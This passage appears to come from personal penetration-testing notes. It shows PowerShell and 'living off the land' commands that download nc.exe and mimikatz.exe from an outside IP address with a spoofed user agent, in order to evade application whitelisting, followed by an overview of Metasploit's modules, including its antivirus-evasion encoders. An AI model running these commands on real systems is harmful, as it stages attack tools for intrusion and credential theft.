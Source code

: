 2. **Request with Chrome User Agent**
```powershell
PS C:\carnifex17> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\carnifex17> Invoke-WebRequest http://13.13.13.13/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
#### LOLBAS / GTFOBins
Application whitelisting may prevent you from using PowerShell or Netcat, but not from using `Living Off the Land` Binaries. As example LOLBIN is the Intel Graphics Driver for Windows 10(GfxDownloadWrapper.exe), which could be used to file transfer
1. **Transferring File with GfxDownloadWrapper.exe**
```powershell
PS C:\carnifex17> GfxDownloadWrapper.exe "http://13.13.13.13/mimikatz.exe" "C:\Temp\nc.exe"
```

---

# Metasploit

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

- **What is MS Module?**
A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them. 
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** -  `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.
 
## Useful MSFconsole Commands

- **Specific Search**
```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```
